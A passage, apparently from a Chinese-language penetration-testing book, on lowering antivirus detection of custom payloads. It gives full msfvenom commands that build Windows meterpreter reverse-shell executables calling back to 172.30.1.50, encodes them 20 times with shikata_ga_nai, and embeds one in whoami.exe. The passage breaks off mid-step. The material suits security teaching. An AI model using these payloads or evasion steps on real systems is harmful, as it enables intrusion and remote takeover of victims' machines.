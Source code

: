 如前所示的截图，超过 50 个来自不同厂商的反恶意软件传感器检测到自定义有效载荷为潜在威胁。如果我们将这个自定义有效载荷上传到运行任何这些反恶意软件程序的目标系统，它会立即被检测并删除。因此，阻止我们执行有效载荷以获取反向 Shell。

> 请记住，一旦你将文件提交到 VirusTotal 并被标记为恶意文件，该恶意文件的哈希值也会与其他防病毒和安全供应商共享。因此，恶意有效载荷在目标机器上的有效使用时间会大大缩短。

1.  接下来，让我们使用 `shikata_ga_nai` 编码模块对有效载荷进行编码，并执行 20 次编码迭代，以降低自定义有效载荷的威胁检测评分，使用以下命令：

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.30.1.50 LPORT=1234 -e x86/shikata_ga_nai -i 20 -f exe -o payload2.exe
```

1.  在生成新的有效载荷后，将其上传到 VirusTotal 以确定威胁检测评分，如下所示：

![](img/file334.png)

如前面截图所示，虽然这个新的自定义有效载荷包含了使用 `x86/shikata_ga_nai` 编码模块进行的 20 次编码迭代，但它仍然被许多反恶意软件传感器检测到。然而，`x86/shikata_ga_nai` 编码模块在使用 MSFvenom 时通常是推荐的。

1.  接下来，让我们生成另一个自定义有效载荷，并使用以下命令将其嵌入到可执行文件中：

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.30.1.50 LPORT=1234 -x /usr/share/windows-binaries/whoami.exe -e x86/shikata_ga_nai -i 20 -f exe -o payload3.exe
```

1.  接下来，将新的有效载荷上传到 VirusTotal 以确定威胁评分，如下所示：
